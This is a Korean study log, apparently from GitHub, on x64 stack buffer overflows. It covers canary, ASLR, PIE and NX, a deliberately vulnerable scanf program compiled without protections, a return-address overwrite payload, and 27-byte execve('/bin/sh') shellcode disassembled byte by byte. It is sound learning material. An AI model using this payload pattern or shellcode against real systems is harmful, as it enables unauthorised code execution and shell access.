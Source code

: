 # 📅 YYYY.MM.DD Study Log

## 📌 오늘 배운 개념 요약

- 
- 
- 

---

## ✅ Buffer Overflow 방어 기술 (정리 예시)

###rax, rbx, rsp, rbp 를 배웠다.


##x64 환경에서 존재하는 BOF 방어 기법들
1. **Canary** => sfp,ret 의 정보를 저장할 때, bof공격으로 덮어씌어지는 것을 방지하기 위해 sfp와 buffer 사이에 임의의 값을 추가함. 이게 변조된다? ==> bof로 탐지.
3. **ASLR**(Address Space Layout Randomization) ==> 메모리 랜덤화.
4. **PIE**(Position Independent Execution)
5. **NX**(Non excutable)

![image](https://github.com/user-attachments/assets/2c709cf7-8554-41fd-89d6-5c266a306a07)
![image](https://github.com/user-attachments/assets/d963f3ad-1d72-4610-b77e-2642e1d5ccee)


#include <stdio.h>

void secret(){
        printf("You hacked me!\n");
}
int main(){
        char buf[64];

        printf("Input: ");
        scanf("%s", buf);

        printf("You typed: %s\n", buf);

        return 0;
}


해당 코드의 scanf의 취약점을 활용하려 bof를 시도했다.
조건 

$gcc -g -fno-stack-protector -no-pie -o bof1 bof1.c
==> canary, aslr

파일에 설정된 보호기법 확인?
checksec --file=파일명

payload 작성
buffer[64] + SFP[8] + 덮어쓸 주소[8]

gdb ./bof1
p $secret ==> secret 함수의 주소를 찾음.
python3 -c 'print("A"*64 + "B"*8 + "해당 주소")' | ./bof1
//출력: You hacked me!  

확인해보니 NX가 켜져있다. 다만 NX는 스택에서 실행되는 쉘코드를 막는 것! 나는 그냥 주소만 넣었을 뿐.

---

머신코드?
\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05  


***\x48\x31\xc0***  
\x48 ==> REX prefix ==> 64비트 연산한다. rax rbx 쓸거다?  
\x31 ==> opcode  
\xc0 ==> ModR/M 바이트. 11000000 (rax 두개 쓸거다)    
       =xor rax, rax  
       
***\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00***  
\x48 ==> REX prefix  
\xbb ==> mov r64,imm64  OR  mov r32,imm32      ==> 미리 prifix 해두었기에 movabs rbx, imm64 (만약 없으면 32bit로 쓰임)  
\x2f\x62\x69\x6e\x2f\x73\x68\x00 ==> 리틀엔디언으로 '/bin/sh\0'  
       =movabs rbx, 0x0068732f6e69622f  
***\x53***  
\x53 ==> push rbx (리틀엔디언 형식으로 저장!!! )  
       = push rbx  
***\x48\x89\xe7***  
\x48  
\x89 ==> mov r/m64, r64 "오른쪽 레지스터 값을 왼쪽에 복사."  
\xe7 ==> 11100111 mod = 11, reg = 100, rsp = 111  
       = mov rdi, rsp (rdi 레지스터에 /bin/sh 문자열의 주소를 넣음)  
(참고자료)
![image](https://github.com/user-attachments/assets/00e78af8-872f-436e-aa93-639cd4fa5b7d)
![image](https://github.com/user-attachments/assets/1ab48fb3-2ebc-4576-b025-982a90972a25)

EAX	ECX	EDX	EBX	ESP	EBP	ESI	EDI  
000	001	010	011	100	101	110	111  

      
***\x48\x31\xf6***  
\x48 익숙하죠?  
\x31 ==> opcode xor r/m64, r64  
\xf6 ==> 11110110 mod = 11, reg = 000???, rm = 110  
       = xor rsi, rsi (rsi 레지스터를 0으로 초기화 = execve의 두번째 인자 NULL)  

***\x48\x31\xd2***  
\x48  
\x31  
\xd2 ==> mod = 11010010 mod = 11, reg = 010, rm = 010  
      = xor rdx, rdx (rdx 레지스터를 0으로 초기화 = 3번째 인자 NULL)  
***\xb0\x3b***  
\xb0 ==> mov al, immm8 (8비트를 al에 넣는다.)  
\x3b ==> 59(system call number 59.== execve)  
      = mov al, 0x3b  

시스템콜 넘버는  
/usr/include/x86_64-linux-gnu/asm/unistd_64.h 여기서  cat해서 찾아보면 됨.  

***\x0f\x05***  
      = syscall (opcode)  

모두 합치면?  
xor rax, rax  
movabs rbx,  0x0068732f6e69622f  
push rbx  
mov rdi, rsp  
xor rsi, rsi  
xor rdx, rdx  
mov al, 0x3b  
syscall   




---

## 🧠 오늘의 느낀 점 ☑️


---
## ❓ 오늘의 궁금한 점 🔍


---

## 🔖 내일 목표 🎯

- [ ] CTF 문제 1개 풀고 write-up 작성
- [ ] 오늘의 궁금한 점 중 1개는 gdb로 실험
- [ ] 쉘코드 흐름 복습 및 시각화 정리


